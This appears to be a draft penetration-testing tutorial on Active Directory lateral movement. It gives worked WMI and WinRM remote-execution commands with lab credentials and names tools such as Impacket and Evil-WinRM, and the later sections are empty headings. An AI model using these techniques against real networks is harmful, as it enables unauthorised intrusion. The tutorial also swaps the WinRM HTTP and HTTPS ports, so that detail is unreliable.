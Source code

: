 ```yaml
---
title: "AD - Lateral Movement Techniques"
date: 2025-05-30
draft: true
tags: ["active directory", "windows", "lateral movement"]
---
```


# ACTIVE DIRECTORY - Lateral Movement Techniques
Here, we'll take a look at lateral movement techniques in Active Directory envir/onments.
## 1. WMI and WinRM
### 1.1 WMI
Windows Management Instrumentation (WMI) is capable of creating processes via the Create method from the Win32_Process class. It
communicates through Remote Procedure Calls (RPC)1134 over port 135 for remote access and
uses a higher-range port (19152-65535) for session data.

In order to abuse a remote target via WMI, we need credentaisl of a member of the Administrator local group, which can be also a domain user.

```bash
C:\Users\patrick>wmic /node:192.168.40.21 /user:patrick /password:Cat123!@ process call
create "calc"

 Executing (Win32_Process)->Create()
 Method execution successful.
 Out Parameters:
 instance of __PARAMETERS
 {
 ProcessId = 752;
 ReturnValue = 0;
 };
```

The WMI job returned the PID of the newly created process and a return value of “0”, meaning that the process has been created successfully.

Now we can do the same through powershell with few extra details. We'll need a PSCredential object that will store our session with username and password.

```bash
$username = 'patrick';
$password = 'Cat123!@';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username,
$secureString;
```

Now, we want to create a Common Information Mode (CIM). We'll specify DCOM as the protocol for the WMI session, create new sessions against our target IP and supply the PSCredential object, then, define 'calc' as the payload to be executed.

```bash
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.40.21 -Credential $credential -SessionOption $Options
$command = 'calc';
```

In the final step, put all the pieces together, invoke the cmdlet *Invoke-CimMethod* and provide **Win32_Process** as Class name and **Create** as MethodName.

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

This will launch a calculator process on target.

### 1.2 WinRM
As an alternative method to WMI for remote management, WinRM can be employed for remote hosts management. WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5985 for encrypted HTTPS traffic and port 5986 for plain HTTP.

WinRM is implemented in numerous built-in utilities, such as winrs (Windows Remote Shell).

```bash
C:\Users\patrick>winrs -r:files01 -u:patrick -p:Cat123!@ "cmd /c hostname & whoami"
FILES01
corp\patrick
```

> To WinRS work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

PowerShell also has WinRM built-in capabilities called PowerShell remoting which can be invoked via the New-PSSession cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.

```bash
PS C:\Users\patricck> $username = 'patrick';
PS C:\Users\patrick> $password = 'Cat123!@';
PS C:\Users\patrick> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\patrick> $credential = New-Object System.Management.Automation.PSCredential
$username, $secureString;
PS C:\Users\patrick> New-PSSession -ComputerName 192.168.40.21 -Credential $credential
Id Name ComputerName ComputerType State ConfigurationName Availability
-- ---- ------------ ------------ ----- ----------------- ------------
1 WinRM1 192.168.40.21 RemoteMachine Opened Microsoft.PowerShell Available
```

Now, to interact with the open session, we need the cmdlet Enter-PSSession.

```bash
PS C:\Users\patrick> Enter-PSSession 1
[192.168.40.21]: PS C:\Users\patrick\Documents> whoami corp\patrick
[192.168.40.21]: PS C:\Users\patrick\Documents> hostname FILES01
```

**References to Dive Deeper:**

[Microsoft WMI documentation](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page)

[Microsoft WinRM documentation](https://learn.microsoft.com/en-us/windows/win32/winrm/portal)

**Red Team Tools:**

[Impacket’s wmiexec.py](https://github.com/fortra/impacket)

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

---

## 2. PsExec

## 3. Pass The Hash (PtH)

## 4. Overpass the Hash

## 5. Pass the Ticket

## 6. DCOM
